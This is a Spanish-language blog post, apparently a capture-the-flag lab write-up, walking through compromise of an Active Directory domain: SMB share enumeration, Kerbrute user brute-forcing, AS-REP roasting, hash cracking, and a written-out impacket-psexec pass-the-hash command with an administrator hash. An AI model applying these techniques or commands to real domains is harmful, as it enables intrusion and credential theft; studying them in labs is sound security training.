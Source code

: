 ```yaml
---
layout: post
title:  "Attack Active Directory"
author: erik
categories: [ Active Directory ]
image: https://user-images.githubusercontent.com/47476901/131404883-b4abe28e-a673-4660-ba86-fe2f46530810.jpg
beforetoc: ""
toc: false
tags: [ Active Directory, Red Team ]
---
```


En esta máquina vulneraremos un dominio de Active Directory.

# Table of Contents
1. [Enumeration Active Directory](#EnumerationAD)
2. [Explotation](#Explotation)

## Enumeration AD: <a name="EnumerationAD"></a>
#### Nmap:
```bash
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2021-08-30 16:59:43Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49665/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49670/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
49716/tcp open  msrpc         Microsoft Windows RPC
```
Dominio:
- vulnnet-rst.local

#### SmbClient:

En la enumeracion de samba listamos todos los archivos compartidos, y luego inspecionaremos uno a uno.
- <a href="https://www.samba.org/samba/download" target="_blank">SmbClient</a>

![smbclient_listing](https://user-images.githubusercontent.com/47476901/131402701-ce0fe921-d129-4471-82c6-24501f0e1308.png)

- SMB: VulnNet-Enterprise-Anonymous

![VulnNet-Enterprise-Anonymous](https://user-images.githubusercontent.com/47476901/131402731-ef0d65e7-9a2d-44f0-ab8b-2f70068d502b.png)

- SMB: VulnNet-Business-Anonymous

![VulnNet-Business-Anonymous](https://user-images.githubusercontent.com/47476901/131402753-1cfcbf4f-28d5-48ca-b453-9857aa0b8ff3.png)

Analizamos los nombres que nos muestan los ficheros para crear un diccionario personalizado y usarlo al enumerar los posibles usuarios en el AD.

![recogeruser](https://user-images.githubusercontent.com/47476901/131402776-869348bf-d3b3-4911-9ef5-d36760d71c3b.png)

Diccionario:

![diccionario](https://user-images.githubusercontent.com/47476901/131402807-9f24c798-b8d9-49fb-88a5-31e39fee9995.png)

#### Kerbrute:

Hacemos fuerza bruta para saber que usuarios son validos a nivel de dominio usando nuestro diccionario creado anteriormente
- <a href="https://github.com/ropnop/kerbrute" target="_blank">Kerbrute</a>

![kerbrute](https://user-images.githubusercontent.com/47476901/131402818-de939578-3873-45ef-a4e9-4b306357a722.png)

#### impacket-lookupsid:

Extrae los usuarios validos del sistema.
- <a href="https://github.com/SecureAuthCorp/impacket/blob/master/examples/lookupsid.py" target="_blank">Lookupsid</a>

![lookupsid](https://user-images.githubusercontent.com/47476901/131402828-1f05eac2-80d5-494e-8599-cda86e24c50a.png)

#### impacket-GetNPUsers:

Si tenemos una lista de usuarios validos hacemos el ataque **as-rep roast**

<li><b><i><em style="font-size: 13px;">
El ataque de "AS-REP Roast" es una técnica que permite recuperar hashes de contraseña para usuarios que tienen seleccionada la propiedad No requiere autenticación previa de Kerberos: esos hashes se pueden descifrar sin conexión, de manera similar a como se hace en T1208: (Kerberoasting)
</em></i></b></li>

GetNPUsers intentará recopilar las respuestas AS_REP que no son de autenticación previa para una lista determinada de nombres de usuario. Estas respuestas se cifrarán con la contraseña del usuario, que luego se puede descifrar sin conexión.
- <a href="https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py" target="_blank">GetNPUsers</a>

![impacket-GetNPUsers](https://user-images.githubusercontent.com/47476901/131402842-2e67866b-7d8a-4e54-b42c-99af25852bb5.png)

#### John The Ripper:
Crackeamos el hash para sacar la contraseña del usuario
- <a href="https://www.openwall.com/john/" target="_blank">JohnTheRipper</a>

![John](https://user-images.githubusercontent.com/47476901/131403225-2ff909e6-56fe-4a43-9914-b5f94c849fbe.png)
- Usuario: t-skid
- Contraseña: tj072889*  

#### Crackmapexec:
Esta herramienta se usa para recopilar informacion sobre el active directory.
- <a href="https://github.com/byt3bl33d3r/CrackMapExec" target="_blank">Crackmapexec</a>

![Crackmapexec](https://user-images.githubusercontent.com/47476901/131402847-0984fe0e-917b-4fa6-b023-ec6a28f41727.png)

- Crackmapexec module spider_plus:
De manera recursiva muestra los archivos a los que tiene acceso el usuario indicado.

![spider](https://user-images.githubusercontent.com/47476901/131402860-f4ecb13d-9ca1-4685-9c8d-f268a8b777b2.png)

Nos crea el resultado en tmp.
Lo inspeccionamos y encontramos una ruta interesante.

![spiderresult](https://user-images.githubusercontent.com/47476901/131402873-285ae9b8-6e24-4fda-ac50-77a84663e196.png)

#### smbclient NETLOGON:
Entramos a la carpeta netlogon y extraemos el fichero para analizarlo posteriormente.

![netlogon](https://user-images.githubusercontent.com/47476901/131402885-6c21b663-7759-45f2-972a-68d564fa9f1e.png)

#### Password User:
En el script encontramos una contraseña de un usuario

![password user](https://user-images.githubusercontent.com/47476901/131402900-e6f113d0-5982-4411-bea3-0fb77f1f2dc7.png)
Una vez tengamos la contraseña del usuario probamos a ver que hashes podemos dumpear con la tecnica de pass the hash

## Explotation: <a name="Explotation"></a>
#### Pass the hash

Con esto podemos darnos acceso al servidor sin necesidad de aportar una contraseña

![passthehash](https://user-images.githubusercontent.com/47476901/131402921-beb788f6-17a0-4a14-8f07-feeac377e66a.png)

El hash del administrador nos permite entrar sin contraseña a su cuenta remotamente.
Para ello usamos psexec:
- <a href="https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py" target="_blank">Psexec</a>

```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d  Administrator@10.10.204.28
```
Ya somos administradores del dominio

![psexec](https://user-images.githubusercontent.com/47476901/131402932-5a53aa6a-11fc-422e-882d-84737500e182.png)

